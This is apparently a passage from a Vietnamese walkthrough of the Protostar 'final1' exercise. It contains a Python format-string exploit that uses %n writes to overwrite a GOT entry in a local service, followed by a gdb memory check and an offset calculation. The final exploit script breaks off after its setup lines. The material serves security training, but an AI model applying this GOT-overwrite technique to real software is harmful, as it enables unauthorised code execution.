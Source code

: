 tiếp tục với 4 byte cao

```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
pad = "A" * (24-len(hostname))

STRNCMP_1 = struct.pack("I", 0x0804a1a8)
STRNCMP_2 = struct.pack("I", 0x0804a1a8+2)

username = pad  +  STRNCMP_1 + STRNCMP_2 + "%16$65408x" + "%17$n" + "%16$x" + "%18$n"
login = "login " + "AAAA"
print(read_until("[final1] $ "))
s.send("username "+username+"\n")
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
s.send(login+ "\n" )
raw_input('waiting ... hit [enter]')
print(read_until("[final1] $ "))
```
lúc này ta thấy được địa chỉ được ghi đè vào bên trong GOT là:
```gdb
(gdb) x/wx 0x804a1a8
0x804a1a8 <_GLOBAL_OFFSET_TABLE_+188>:  0xffb8ffb0
```

tính toán offset tiếp:

```py
user@protostar:/tmp$ python
Python 2.6.6 (r266:84292, Dec 27 2010, 00:02:40)
[GCC 4.4.5] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x1b7ec - 0xffb8 +8
47164
```

Cuối cùng ta có được chương trình exploit
```py
import socket
import struct
import telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 2994))

def read_until(check):
    buffer = ''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer

ip, port = s.getsockname()
hostname = ip +":"+str(port)
```